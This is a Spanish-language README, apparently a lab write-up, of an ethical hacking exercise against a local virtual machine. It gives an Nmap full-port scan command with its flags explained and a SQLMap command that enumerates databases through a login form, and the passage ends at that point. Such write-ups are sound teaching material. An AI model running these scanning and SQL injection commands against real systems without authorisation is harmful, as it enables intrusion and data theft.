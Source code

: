 # 💉 Injection

Este proyecto documenta un ejercicio de hacking ético centrado en el reconocimiento, explotación y escalada de privilegios en una máquina virtual.

## ⚙️ Herramientas utilizadas

- [Nmap](https://nmap.org/) – Escaneo de puertos y detección de servicios
- [SQLMap](https://sqlmap.org/) – Automatización de ataques por inyección SQL

---

## 🔍 Escaneo de Puertos

Realizamos un escaneo exhaustivo de puertos con Nmap:

```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN escaneo.txt
```
### Parámetros clave:

- sudo: Necesario para escaneos con privilegios elevados.

- -p-: Escanea todos los puertos (1-65535).

- -sS: Escaneo SYN (sigiloso).

- -sC: Usa scripts por defecto.

- -sV: Detecta versiones de servicios.

- --min-rate 5000: Aumenta velocidad de escaneo.

- -n: Omite resolución DNS.

- -Pn: Omite ping previo.

- -vvv: Máximo detalle en la salida.

- -oN escaneo.txt: Guarda salida en archivo legible.

<img width="564" alt="image" src="https://github.com/user-attachments/assets/0d9d8c3c-954d-4300-b322-e98488464510" /><br>

---

## 🌐 Servidor HTTP en Puerto 80
El escaneo revela un servidor web activo. Accedemos y encontramos un panel de login.

<img width="544" alt="image" src="https://github.com/user-attachments/assets/fb7dbc3e-aa49-41e4-b7d4-5c8ed9697070" /><br>

---

## 💥 Explotación con SQLMap
1. Enumerar bases de datos:
```bash
sqlmap -u http://172.17.0.2/ --forms --dbs --batch
```
